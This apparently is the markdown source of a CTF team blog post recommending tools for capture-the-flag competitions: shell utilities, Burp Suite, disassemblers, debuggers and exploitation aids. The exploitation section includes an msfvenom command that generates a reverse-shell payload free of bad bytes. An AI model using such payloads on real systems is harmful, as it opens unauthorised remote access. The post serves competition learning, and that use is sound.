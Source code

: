 ```yaml
---
layout: post
title: "Basic Tools"
categories: learning
author: saelo
---
```


CTFs are about the skill, not about the tools. Still, you'll need a couple of tools to be successful.\\
In general a good advice is to get used to working with the OS shell. There's really **a lot** of things you can do **very** quickly and effectively if you know your way around bash/zsh/*your_favourite_shell_here* and python or *your_favourite_scripting_language_here*.

Get used to curl, bash for + while loops, grep, pipes, file redirection, command substitution, fifos, ... you name it. Also choose a decent text editor (vim, sublime, emacs, ... **not** nano or similar :P) and learn how to use it properly.

Try to stay away from tools that automate too much, you'll not learn anything from using them and they most likely won't help you solve the challenge. Automated tools definitely lack behind a skilled human :)


###General Tools

There's a couple of useful Unix tools you'll often need during CTFs. Some tools you should be familiar with:

Tool           | Description
-------------- | -----------------------------------------------------------------------------------------------
strings        | Search for strings in files, supports 8, 16 and 32 bit Unicode
-------------- | -----------------------------------------------------------------------------------------------
file           | Try to detect the file type based on magic byte sequences at the start of the file
-------------- | -----------------------------------------------------------------------------------------------
netcat/nc      | Connect to a remote tcp/udp/sctp server and talk to it from the command line
-------------- | -----------------------------------------------------------------------------------------------
hexdump/xxd    | View files and data in hexadecimal
-------------- | -----------------------------------------------------------------------------------------------
hexedit/ghex   | Edit files in hexadecimal
-------------- | -----------------------------------------------------------------------------------------------
strace/ltrace  | Trace the execution of a binary, log syscalls/library function calls
-------------- | -----------------------------------------------------------------------------------------------
wireshark      | View network traffic, either live or from a pcap file
-------------- | -----------------------------------------------------------------------------------------------


###Web Security

My favourite tool for doing any kind of web hacking is the [Burp Suite](http://portswigger.net/burp/). Burp Suite is a very powerful and flexible tool and the free version is usually sufficient. For a start you'll want to make yourself familiar with the Proxy and the Repeater. Also take a look at the Intruder at some point.\\
Oftentimes a combination of curl, grep and sometimes a bash loop or similar can work wonders too though.

Additionally make yourself familiar with how to make web requests from your favourite scripting language. For python I can recommend the [requests](http://docs.python-requests.org/en/latest/) package.

Moreover it might be a good idea to have a few VMs (try out [vagrant](https://www.vagrantup.com/)) or [docker](https://www.docker.com/) containers ready so you can quickly run some server side code locally to develop and debug your exploit.

Ultimately web hacking really isn't about (automated) tools, so don't start running some vuln discovery tool or directory bruteforcer against the web server, it will get you nowhere and will just put the organizers web servers under unnecessary load.


###Reverse Engineering

You'll need a disassembler: Basically you have the choice between [radare2](https://github.com/radare/radare2), [hopper](http://www.hopperapp.com/) and [IDA Pro](https://www.hex-rays.com/products/ida/) (there's a free/evaluation version available for both, hopper and IDA). IDA Pro is pretty much the industry standard tool for reverse engineering (and thus relatively pricey).

For debugging you'll definitely want to make yourself familiar with gdb. If you want an improved UI you can take a look at [peda](https://github.com/longld/peda), the .gdbinit from [here](https://github.com/gdbinit/Gdbinit) or try out [voltron](https://github.com/snare/voltron).

If you need to do reverse engineering and/or debugging on Windows, take a look at [x64dbg](http://x64dbg.com/#start), [OllyDbg](http://www.ollydbg.de/) or the [Immunity Debugger](http://debugger.immunityinc.com/). Also [WinDbg](http://www.windbg.org/) is very powerful, especially since it can do kernel level debugging (rarely needed during CTFs though).


###Exploitation

Since reverse engineering a binary is usually the first step towards developing an exploit for it, make sure to also read the section on reverse engineering.

For your exploit you can usually grab some shellcode from the internet, e.g. [this one](http://shell-storm.org/shellcode/files/shellcode-752.php), but msfvenom can be useful, too. For example

    ./msfvenom \
     -p linux/x86/shell_reverse_tcp \
     LHOST=$(curl icanhazip.com) \
     LPORT=4444 \
     -b '\x00\x09\x0a\x0b\x0c\x0d\x20' \
     -f python

will generate a reverse shell payload without zero bytes or whitespace in it and spit it out as ready to use python code.\\
If you need to build a ROP payload, give [ROPgadget](https://github.com/JonathanSalwan/ROPgadget) a try (metasploit has a similar utility called msfrop, but I found ROPgadget to work better most of the times).

Some other useful tools include the [checksec.sh](http://www.trapkit.de/tools/checksec.html) script to quickly check which mitigations are enabled on a binary, the [pattern_create](https://github.com/rapid7/metasploit-framework/blob/master/tools/pattern_create.rb) and [pattern_offset](https://github.com/rapid7/metasploit-framework/blob/master/tools/pattern_offset.rb) scripts from metasploit to find various important offsets (e.g the offset from the start of a buffer to the saved return address on the stack), as well as the metasm shell (for example to quickly assemble a "jmp short 0x10" to jump over some corrupted part of the shellcode) or nasm (to build your own shellcode).

Also (shameless plug) take a look at our [ctfcode repository](https://github.com/kitctf/ctfcode) :)
